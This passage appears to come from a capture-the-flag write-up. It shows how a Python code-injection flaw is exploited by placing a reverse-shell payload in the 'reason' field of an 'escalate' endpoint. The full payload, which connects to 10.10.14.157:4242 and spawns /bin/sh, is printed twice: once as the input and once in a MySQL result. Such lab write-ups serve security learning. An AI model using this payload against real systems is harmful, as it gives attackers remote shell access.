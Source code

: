 ```python
            '"<input_key>=<filename>", or'
            '"<input_key>=<filename>[<variable_name>]"' % input_raw)

  return input_dict
```

The good news is, we controll the `inputs_str` variable through the reason field in the escalate endpoint.
```python
hello=exec("""import socket\nimport subprocess\ns=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\ns.connect(("10.10.14.157",4242))\nsubprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())""")
```

Which means it's just a matter of sending that the payload as `reason` in the url form:  
![controll.png](controll.png)  

After that we'll be able to see it in the database:  
```sql
+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| hello=exec("""import socket\nimport subprocess\ns=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\ns.connect(("10.10.14.157",4242))\nsubprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())""") |
+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
1 row in set (0.00 sec)

mysql>
mysql>
```
